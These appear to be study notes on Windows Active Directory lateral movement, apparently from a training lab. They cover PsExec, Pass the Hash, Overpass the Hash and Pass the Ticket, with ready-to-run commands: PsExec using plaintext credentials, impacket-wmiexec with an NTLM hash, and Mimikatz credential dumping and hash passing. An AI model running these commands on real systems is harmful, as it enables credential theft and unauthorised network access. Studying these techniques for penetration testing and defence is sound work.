 ## PsExec
> Prerequisites
	1) The user that authenticates to the target machine needs to be part of the **Administrators** local group
	2) **SMB** (445/TCP) (The _`ADMIN$`_ share must be available)
	3) **File and Printer Sharing has to be turned on**. (This is the only one that is *NOT* on by default)

Attack:
```bash
.\PsExec64.exe -i  \\FILES04 -u corp\jen -p Password123! cmd
```

> The ADMIN$ share is a hidden administrative share on Windows systems that maps to the Windows installation folder—typically `C:\Windows`. This share is created by default for administrative purposes and allows remote access to the Windows directory for system management tasks.

---
## Pass the Hash

> Prerequisites: **Note that this will only work for servers or services using NTLM authentication, not for servers or services using Kerberos authentication.** 

> NOTE: **this method works for AD domain accounts and the built-in local `Administrator` account.** After a 2014 security update, this technique cannot be used to authenticate as any other local admin account. 

Attack:
`impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C123E Administrator@192.168.50.73`

---
## Overpass the Hash
- Overpass the Hash is overabusing the NTLM hash to grant a Kerberos TGT
	- Pass the Hash enables NTLM authentication
	- **Overpass the Hash enables Kerberos authentication**

> Prerequisite: target user must have logged onto this machine at some point (cached credentials) 

Attack:
1) Mimikatz setup
	1) `privilege::debug`
	2) `sekurlsa::logonpasswords` to get `jen`'s NTLM hash
2) Mimikatz `sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93123 /run:powershell`
3) `net use \\FILES04` or any other command that will require Kerberos auth in order to generate a TGT
4) `klist` to verify that TGT and TGS have been created
5) Success! Can now use any tools that require Kerberos authentication
	1) E.g., `.\PsExec.exe \\files04 cmd`

---
## Pass the Ticket
TGT (Overpass the Hash) only allows us to use it on the machine it was created for, but the TGS can be more flexible. (**I.e., you can move the `.kirbi` files to other hosts if desired**)
